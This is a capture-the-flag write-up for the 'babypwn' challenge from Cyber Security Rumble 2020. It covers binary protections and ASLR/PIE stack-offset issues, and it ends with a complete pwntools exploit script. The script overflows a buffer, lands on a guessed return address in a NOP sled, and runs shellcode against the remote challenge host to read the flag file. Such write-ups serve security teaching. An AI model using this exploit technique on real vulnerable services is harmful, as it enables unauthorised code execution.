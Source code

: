 # babypwn

Points: 100

```bash
➜ checksec babypwn
[*] '/home/squishy/Programs/ctf/2020/cyber_security_rumble/babypwn/baby-pwn-for-download/docker/babypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

The only protection we have is that PIE enabled. Note that NX is disabled.
Also, we can see from the `babypwn_svc` that ASLR is disabled.

I started by trying to exploit it on the local executable:

To turn off ASLR:
```
➜ setarch `uname -m` -R $SHELL
```

This spawns a shell where any subsequence commands with have ASLR disabled as
well. Note that running a program in gdb disables ASLR by default.

By overflowing `user_md5`, I was eventually able to execute my shellcode payload
on the stack. I tested this and found that it worked by stepping through the
program in GDB.

However, when I actually ran the program, I found that it didn't work. This
was because for some reason, the stack offset was different from when I ran it
in GDB. I was able to confirm this by inspecting core files caused by the crash.

I then corrected the stack offset by using the address from the core file. This
allowed it to work when running the local executable. However, it failed when
running on my local containerized challenge as well as the remote challenge.

It seems like:
- With ASLR disabled, the stack addresses will not be deliberately randomized
  between each run. This allowed my exploit to work locally with ASLR disabled.
- With PIE enabled, the stack address will change depending on the context.
  - When running in GDB, I got different stack addresses
  - When running locally, I got different stack addresses
  - When running from the containerized challenge, I got different stack addresses

Since we don't know the stack addresses on the containerized challenge, we can
only guess. To increase the chances of a successful guess, we can precede our
shellcode with a generous amount of no-ops. Then we just try different stack
address until it works.

Script (also in `main_cat_clean.py`):
```python
import pwn

pwn.context.arch = 'amd64'

sh = pwn.remote('chal.cybersecurityrumble.de', 1990)


def inject_shellcode():
    # Target: 120 bytes
    # 8 bytes: (fake input)
    # 1 byte: (null to fool strlen)
    # 111 bytes: (padding)
    # ---
    # 8 bytes: address somewhere in no-ops to reach shellcode
    # ---
    # ? bytes: (no ops) <- Goal is to jump somewhere here
    # ? bytes: (shellcode)

    ret_addr_padding = 120

    payload = b'12345678' + b'\0';

    padding = ret_addr_padding - len(payload)
    payload += pwn.cyclic(padding)

    # Keep guessing values until this works.
    # You can use `➜ sudo dmesg | tail -10` to see info on where the program
    # failed.
    sh_code_addr = 0x7fffffffef90 # lucky guess

    print('sh_code_addr: ', hex(sh_code_addr))
    payload += pwn.p64(sh_code_addr)

    payload += pwn.asm(pwn.shellcraft.nop()) * 2048

    # Since we are using `gets`, `stdin` mustbe re-opened if we want to use it
    # Instead let's just `cat` the file
    sh_code = pwn.shellcraft.amd64.linux.cat('/flag.txt')
    sh_code += pwn.shellcraft.exit(0)

    sh_code = pwn.asm(sh_code)
    sh_code = pwn.encoder.line(sh_code)

    payload += sh_code
    print('Payload len: ', len(payload))

    return payload


payload = inject_shellcode()

with open('payload', 'wb') as f:
    f.write(payload)

sh.send(payload)
sh.interactive() # Hit enter to show the output of `cat /flag.txt`
```

